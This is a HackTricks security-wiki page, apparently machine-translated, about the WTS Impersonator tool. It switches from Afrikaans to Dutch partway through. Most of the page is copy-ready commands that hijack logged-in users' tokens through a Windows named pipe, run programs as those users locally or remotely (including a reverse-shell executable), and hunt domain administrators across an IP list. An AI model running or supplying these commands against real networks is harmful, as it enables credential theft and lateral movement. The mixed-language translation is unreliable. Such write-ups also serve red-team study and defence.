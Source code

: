 <details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-opslagplekke.

</details>

Die **WTS Impersonator**-instrument maak gebruik van die **"\\pipe\LSM_API_service"** RPC Genoemde pyp om stilletjies ingelogde gebruikers op te som en hul tokens te kaap, terwyl tradisionele Token Impersonation-tegnieke omseil word. Hierdie benadering fasiliteer naadlose laterale bewegings binne netwerke. Die innovasie agter hierdie tegniek word toegeskryf aan **Omri Baso, wie se werk beskikbaar is op [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Kernfunksionaliteit
Die instrument werk deur 'n reeks API-oproepe:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Sleutelmodules en Gebruik
- **Gebruikers Enumereren**: Lokale en externe gebruikersenumeratie is mogelijk met de tool, met behulp van commando's voor beide scenario's:
- Lokaal:
```powershell
.\WTSImpersonator.exe -m enum
```
- Extern, door een IP-adres of hostnaam op te geven:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Commando's Uitvoeren**: De modules `exec` en `exec-remote` vereisen een **Service**-context om te functioneren. Lokale uitvoering vereist eenvoudigweg het WTSImpersonator uitvoerbare bestand en een commando:
- Voorbeeld voor lokale commando-uitvoering:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe kan worden gebruikt om een service-context te verkrijgen:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Externe Commando-Uitvoering**: Hierbij wordt op afstand een service gemaakt en geïnstalleerd, vergelijkbaar met PsExec.exe, waardoor uitvoering met de juiste machtigingen mogelijk is.
- Voorbeeld van externe uitvoering:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Gebruikersjachtmodule**: Richt zich op specifieke gebruikers op meerdere machines en voert code uit onder hun referenties. Dit is vooral handig voor het targeten van Domeinbeheerders met lokale beheerdersrechten op verschillende systemen.
- Gebruiksvoorbeeld:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere manieren om HackTricks te ondersteunen:

* Als je je **bedrijf geadverteerd wilt zien in HackTricks** of **HackTricks in PDF wilt downloaden**, bekijk dan de [**ABONNEMENTSPAKKETTEN**](https://github.com/sponsors/carlospolop)!
* Koop de [**officiële PEASS & HackTricks merchandise**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), onze collectie exclusieve [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit je aan bij de** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of de [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Deel je hacktrucs door PR's in te dienen bij de** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
